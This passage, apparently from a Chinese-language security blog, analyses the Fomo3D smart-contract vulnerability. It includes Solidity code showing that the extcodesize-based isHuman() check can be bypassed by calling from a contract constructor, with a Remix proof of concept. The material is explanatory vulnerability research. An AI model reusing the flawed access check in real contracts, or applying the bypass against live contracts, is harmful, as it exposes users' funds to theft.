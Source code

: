 而漏洞发现的起因也非常有趣，Fomo3D游戏的开发者在twitter上@V神，说发现一个EVM上核弹级漏洞，结果被Ethereum团队leader回怼，并且顺手找了一个Fomo3D游戏漏洞^_^
故事经过在文章[Pwning Fomo3D Revealed: Iterative, Pre-Calculated Contract Creation For Airdrop Prizes!](https://www.peckshield.com/2018/07/24/fomo3d/)中有介绍，并且描述了Fomo3D漏洞。

根据文章描述Fomo3D存在两个漏洞导致被薅羊毛。

**第一个漏洞--错误的访问控制检查：**
```js
modifier isHuman() {
    address _addr = msg.sender;
    uint256 _codeLength;
    
    assembly {_codeLength := extcodesize(_addr)}
    require(_codeLength == 0, "sorry humans only");
    _;
}
```
FoMo3Dlong合约使用isHuman()函数判断调用者是一个外部账户还是一个合约地址，核心利用`assembly {_codeLength := extcodesize(_addr)}`判断，其中关键函数`extcodesize(a)`代表a地址上的代码大小，如果等于0，则代表一个外部账户，非0则代表合约地址，本身很好理解。
但这样判断有个风险，在[Mechanism Design Security in Smart Contracts](https://medium.com/@matthewdif/mechanism-design-security-in-smart-contracts-87f08555b38b)一文中提到：
> NOTE: Do not use the EXTCODESIZE check to prevent smart contracts from calling a function. This is not foolproof, it can be subverted by a constructor call, due to the fact that while the constructor is running, EXTCODESIZE for that address returns 0.

例：合约A中有函数funA使用如上的访问控制，当你在一个合约B的构造函数（constructor()）中调用合约A中的funA，可绕过访问控制成功调用，尽管B是一个合约。extcodesize(B_addr) return 0.

我们可以通过remix验证这一点：
合约A，主要功能是判断调用者是外部账户(返回false)还是合约账户(返回true)：
```js
contract A {
    function isContract() public returns (bool isContract){
      uint32 size;
      address _addr = msg.sender;
      assembly {
        size := extcodesize(_addr)
      }
      return (size > 0);
    }
}
```

发布合约A并将合约A地址写入合约B，合约B分别在构造函数内外去调用合约A的isContract()函数，通过log查看返回值：
```js
interface demoInterface {
    function isContract() external returns (bool);
}

contract B {
    event LogConstructor(bool);
    event Logb(bool);
    constructor() public {
        demoInterface demo= demoInterface(0xdc544654fefd1a458eb24064a6c958b14e579154);
        emit LogConstructor(demo.isContract());
    }
    
    function b() public {
        demoInterface demo= demoInterface(0xdc544654fefd1a458eb24064a6c958b14e579154);
        emit Logb(demo.isContract());
    }
}
```

